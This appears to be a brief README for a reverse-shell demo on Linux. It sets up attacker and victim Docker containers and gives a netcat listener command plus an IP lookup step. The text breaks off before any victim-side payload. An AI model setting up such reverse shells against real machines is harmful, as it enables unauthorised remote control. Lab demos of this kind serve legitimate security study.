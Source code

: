 # SRSFL
Simple Reverse Shell for Linux
```console
docker-compose up --build
docker exec -it attacker_container /bin/bash
    - nc -lvp 1234
docker exec -it victim_container /bin/bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' attacker_container
